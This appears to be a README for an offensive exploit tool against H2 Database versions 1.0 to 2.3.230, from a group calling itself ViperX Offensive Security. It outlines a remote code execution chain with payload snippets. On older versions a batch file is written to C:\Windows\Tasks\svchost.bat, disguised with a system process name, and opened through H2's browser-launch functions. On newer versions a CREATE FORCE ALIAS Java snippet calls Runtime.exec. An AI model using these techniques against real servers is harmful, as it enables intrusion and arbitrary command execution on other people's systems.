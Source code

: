 # H2 Database - RCE  
H2 Database (1.0 ~ 2.3.230) - Remote Code Execution

H2 Database RCE - ViperX Offensive Security

Date: 17/07/2024

The exploit flow operates with the following logic: 
~ for versions <(1.4) we create a 'dummy' table, and write the output log into a ```
C:\Windows\Tasks\svchost.bat``` file by using ```
SCRIPT SIMPLE NODATA NOSETTINGS TO '{BAT_FULLPATH}'```
  
  '-> for old versions we open the .bat file with "org.h2.util.StartBrowser.openURL" and for the newest one "org.h2.tools.Server.openBrowser"
  '-> With this bat file we can perform remote code execution.

~ In case of versions >(1.4), we just need to write a JAVA Code Execution through 'CREATE ALIAS' function:
```

  '->  CREATE FORCE ALIAS CMD_INJECT AS $$
  void pwshInject() throws Exception {
      Runtime.getRuntime().exec("%s");
  }
  $$;
```
